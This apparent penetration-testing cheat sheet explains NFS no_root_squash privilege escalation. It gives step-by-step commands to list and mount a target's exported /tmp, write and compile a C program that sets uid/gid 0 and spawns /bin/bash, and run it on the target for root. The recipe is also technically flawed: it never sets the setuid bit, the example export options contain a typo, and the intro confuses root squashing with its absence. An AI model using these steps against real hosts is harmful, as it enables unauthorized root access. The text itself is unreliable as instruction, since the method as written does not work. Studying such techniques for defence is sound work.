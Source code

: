 **Root Squashing** is a security feature in NFS that prevents unauthorized root-level access to the NFS server by client machines.

To identify is root squashing exists, run **_`cat /etc/exports`_** and look for **_`no_root_squash`_** mentioned with respect to any folder.

**Example:** **_`/tmp *(rm,sync,insecure,no_root_squash,no_subtree_check)`_**

The above example states that the **_`/tmp`_** folder is mountable and on our attack machine.

- To verify if any folder on the target machine is mountable, run **_`showmount -e <target IP>`_**. This will list the folder on the target machine which is mountable on our attack machine.

- First, create a folder within your local **_`/tmp`_** directory such as **_`mkdir /tmp/mountme`_**. Next, to mount the **_`/tmp`_** folder onto **_`/tmp/mountme`_**, run
**_`mount -o rw,vers=2 <target IP>:/tmp /tmp/mountme`_**

- Next, we create a malicious **_.c_** file under the **_`/tmp/mountme`_** folder using:
**_`echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/shell.c`_**

Next, compile the created **_.c_** file using **_`gcc /tmp/mountme/shell.c -o /tmp/mountme/shell`_**, and then set the executable bit for the compiled malicious binary using **_`chmod +x /tmp/mountme/shell`_**

**NOTE:** Ignore any warnings displayed within the compilation output. 

- Now, navigate to the **_`/tmp`_** folder on the target machine and run **_`ls`_** to list the contents. You should now see the newly compiled malicious binary under the **_`/tmp`_** folder on the target machine. 

- Execute the binary and your privileges will be elevated to root user.
***
